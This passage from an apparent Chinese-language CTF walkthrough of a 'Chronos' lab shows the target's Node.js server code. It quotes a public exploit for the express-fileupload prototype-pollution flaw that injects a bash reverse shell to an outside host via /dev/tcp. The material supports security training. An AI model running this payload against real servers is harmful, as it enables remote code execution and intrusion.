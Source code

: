 ```
cat server.js
```

![image-20211104101352160](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104101352160.png)

>const express = require('express');
>const fileupload = require("express-fileupload");
>const http = require('http')
>
>const app = express();
>
>app.use(fileupload({ parseNested: true }));
>
>app.set('view engine', 'ejs');
>app.set('views', "/opt/chronos-v2/frontend/pages");
>
>app.get('/', (req, res) => {
>   res.render('index')
>});
>
>const server = http.Server(app);
>**const addr = "127.0.0.1"**         #reason：为什么扫描的时候没有扫描到8080端口 answer：因为Web应用只有在本机才能访问
>**const port = 8080;**
>server.listen(port, addr, () => {
>   console.log('Server listening on ' + addr + ' port ' + port);
>});

### 3.搜索大法好

express-fileupload漏洞

百度：[流行的Node.js库中存在原型污染漏洞，可致Web应用程序遭受DoS和远程Shell攻击_Posix (sohu.com)](https://www.sohu.com/a/412389503_100002744)

Google：https://blog.p6.is/Real-World-JS-1/

**发现EXP**

>import requests
>
>cmd = 'bash -c "bash -i &> /dev/tcp/p6.is/8888 0>&1"'
>
>#pollute
>
>requests.post('http://p6.is:7777', files = {'__proto__.outputFunctionName': (
>    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
>
>#execute command
>
>requests.get('http://p6.is:7777')
>

kali:
